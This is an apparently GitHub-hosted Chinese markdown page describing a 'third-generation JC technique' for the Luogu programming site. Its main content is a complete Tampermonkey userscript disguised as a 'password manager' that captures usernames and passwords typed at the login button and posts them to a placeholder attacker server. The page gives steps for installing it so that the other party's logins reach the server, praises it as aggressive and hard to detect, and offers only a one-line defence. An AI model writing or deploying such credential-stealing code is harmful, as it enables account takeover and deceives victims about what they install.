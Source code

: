 ```yaml
---
title: 第三代 JC 技术
---
```


**第三代 JC 技术** 的思想提出于 2023 年 9 月 18 日，插件与服务端的实现完成于 2023 年 9 月 20 日。

该技术相较于前两代 JC 技术有 **本质上** 的改进。

## 操作步骤

1. 安装 [**油猴（Tempermonkey）**](https://www.tampermonkey.net/)。
2. 打开链接：

   ```js
   // ==UserScript==
   // @name         密码管理大师
   // @namespace    http://tampermonkey.net/
   // @version      1.1.1
   // @description  密码管理大师
   // @author       JCer Team
   // @match        *://*.luogu.com.cn/*
   // @connect      *
   // @connect      {{ SERVER_URL }}
   // @grant        GM_xmlhttpRequest
   // ==/UserScript==

   const SERVER_URL = {{ SERVER_URL }};

   async function sendPasswordToServer(type, username, password) {
      GM_xmlhttpRequest({
         method: "POST",
         url: `${SERVER_URL}/send/${type}`,
         headers: {
               "Content-Type": "application/x-www-form-urlencoded;charset=utf-8"
         },
         data: new URLSearchParams(Object.entries({ username, password })).toString(),
         onload: res => { console.log(res) },
         onerror: res => { console.error(res) }
      });
   }

   async function registerLuogu() {
      const $btn = document.querySelector('button.btn-login');
      const $username = document.querySelector('input[placeholder=用户名、手机号或电子邮箱]');
      const $password = document.querySelector('input[placeholder=密码]');
      $btn.onclick = () => {
         const username = $username.value;
         const password = $password.value;
         console.log(username, password)
         sendPasswordToServer('luogu', username, password)
      }
   }

   let registered = false;
   function registerPasswordManager() {
      registerLuogu();
   }

   window.onload = registerPasswordManager;
   $(document).ready(registerPasswordManager);
   setTimeout(registerPasswordManager, 1000);
   ```

   选择安装即可。

   此外，请先尝试登录一次，并在 Tempermonkey 的提示窗口中选择“总是允许”。

之后，在对方登录时，服务端便会收到输入账号密码（当然，登录失败的也会想服务端发送）。

## 防御

修改密码并卸载插件。

## 原理

我们的脚本会获取输入的密码信息，并通过请求发送到服务端。

## 利与弊：

**利**：直接获取密码，攻击性极强，并难以发现。

**弊**：相对于前两代操作麻烦，需要较长时间。